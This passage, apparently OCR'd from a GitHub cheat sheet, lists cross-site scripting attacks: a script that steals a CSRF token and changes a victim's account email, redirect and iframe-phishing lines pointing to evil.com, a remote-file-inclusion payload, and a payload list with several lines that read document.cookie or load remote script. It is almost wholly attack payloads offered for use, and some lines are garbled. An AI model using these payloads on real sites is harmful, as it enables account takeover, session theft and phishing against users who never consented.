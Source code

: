         ```python
        <script>
        var req = new XMLHttpRequest();
        req.onload = handleResponse;
        req.open('get','/my-account',true);
        req.send();
        function handleResponse() {
            var token = this.responseText.match(/name="csrf" value="(\\w+)"/)[1];
            var changeReq = new XMLHttpRequest();
            changeReq.open('post', '/my-account/change-email', true);
            changeReq.send('csrf='+token+'&email=test@test.com')
        };
        </script>
        ```
        
    - XSS to Host Header Injection
        
        ```jsx
        ## host header injection through xss
        hostheader: bing.com">script>alert(document.domain)</script><"
        ```
        
    - XSS to Open Redirect
        
        ```jsx
        ## URL redirection through xss
        document.location.href="<http://evil.com>"
        ```
        
    - Phishing Via Iframe
        
        ```jsx
        ## phishing through xss - iframe injection
        <iframe src="<http://evil.com>" height="100" width="100"></iframe>
        ```
        
    - **Remote File Inclusion (RFI) to XSS**
        
        ```jsx
        php?=http://brutelogic.com.br/poc.svg
        ```
        
    - **File upload To XSS**
        
        ```jsx
        ## file upload  through XSS
        upload a picture file, intercept it, change picturename.jpg to xss payload using intruder attack
        ```
        
# Payload list 
```html
# karem bayloads
'"><script>alert('karem')</script> 
'"><img src=1 onerror="alert('Karem')">
'"><img src=1 onkarem=1 onerror="alert('Karem')"> 
<script/src=//6a%2elv></script> 
'"></script><script>alert(document.cookie)</script> 
%27"accesskey="x" onclick="alert(document.cookie)" x=" 
"><u>XSS Vulnerability</u><marquee+onstart='alert(document.cookie)'>XSS 
<details/open=/open/href=/data=;+ontoggle="(alert)(document.cookie)> 
"><iframe/src=javascript:alert%26%23x000000028%3b)> 
%22%3E%3Ciframe/src%3Djavascript%3Aalert%2526%2523x000000028%253b%29%3E%0A 
<svg onload=prompt%26%230000000040document.domain)> 
```